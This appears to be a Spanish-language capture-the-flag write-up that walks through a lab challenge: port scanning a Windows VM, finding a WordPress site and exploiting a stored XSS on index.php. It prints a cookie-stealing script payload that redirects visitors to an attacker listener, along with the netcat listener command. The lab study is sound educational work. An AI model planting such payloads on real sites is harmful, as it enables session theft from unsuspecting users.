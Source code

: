 **flag{1337_4l11111f3}**

# W10

Para realizar estos retos es necesario utilizar la VM que nos hicieron descargar. Una vez que la descargamos la VM y la importamos a VirtualBox, le subimos la RAM a 4 GB y le agregamos una interfaz Host-Only (esto es por gusto personal, para obtener la IP de la máquina de forma más rápida). Para poder escanear esta máquina con nuestra VM de Kali es necesario que la VM de Kali tenga una interfaz Host-Only también.

## index

En nuestra VM de Kali escaneamos la VM de Windows para ver qué puertos tiene abiertos

<img src=":/fcd989b6bb1d4fedb06ca5b05f0b434c" alt="634c62c8228d1bf4105531b47bdba06d.png" width="478" height="384" class="jop-noMdConv">

Al navegar a la IP de la VM de Windows en un navegador web podemos ver la página web que está montada en la máquina

<img src=":/70d211e2ac3b4d6fae8ed77cda0eccc5" alt="d367d8fceb3fca059a7283efb57b250e.png" width="614" height="313" class="jop-noMdConv">

Al revisar el robots.txt descubrimos que la página fue hecha utilizando WordPress (wp) y también descubrimos el nombre del sitio web que hostea la VM de Windows (esto lo necesitaremos para otro reto)

![432292d57d144e00a01fb07d00d4cc10.png](:/a5ef6cda000b461dac03484ae76356de)

Sabiendo que WordPress utiliza mayormente PHP y relacionando eso con el nombre del reto (index) podemos asumir que la página tiene un archivo index.php. al navegar a http://192.168.2.4/index.php encontramos una página que coincide con lo que se nos dice en la descripción del reto

<img src=":/5a3dec6f2aad4ac699db86852d395220" alt="f79eb1264aa270b9c93d757a81b674fe.png" width="405" height="159" class="jop-noMdConv">

Como ya hice la inyección de XSS a la página no me aparece el campo para ingresar texto, pero esta página originalmente lo que hace es que todo lo que introduzcamos al campo de texto y guardemos se reflejará en la página, aun cuando vayamos a otra ruta y volvamos a esta misma página. Sabiendo esto, podemos intentar hacer un Stored XSS con `<script> window.location='http://192.168.2.10/?c=' + document.cookie; </script>` para enviarnos la cookie de la página a un listener que levantaremos en Kali. Al revisar el código fuente de la página para ver si logramos inyectar el script podemos ver que esto funcionó y ahora cada vez que ingresamos a esta página se enviará la cookie a nuestra VM de Kali

<img src=":/0a7e065ecac14a63b7ed5def2fd7f71d" alt="d786b650098a667b63e600fd359f6cfe.png" width="480" height="472" class="jop-noMdConv">

Para poder recibir la cookie levantamos un listener en nuestra VM de Kali con `nc -lnvp 80` y volvemos a ingresar a la página de index.php en nuestro navegador para obtener la cookie, que a su vez contiene la flag

<img src=":/6eeec0f65abd4e5eb1833612050d3c7b" alt="0fead0b32457359a7ba4afa30352eefb.png" width="821" height="193" class="jop-noMdConv">

Ya lo único que necesitamos hacer es decodificar lo que está codificado como URL para obtener la flag

**FLAG{sanitize_input}**
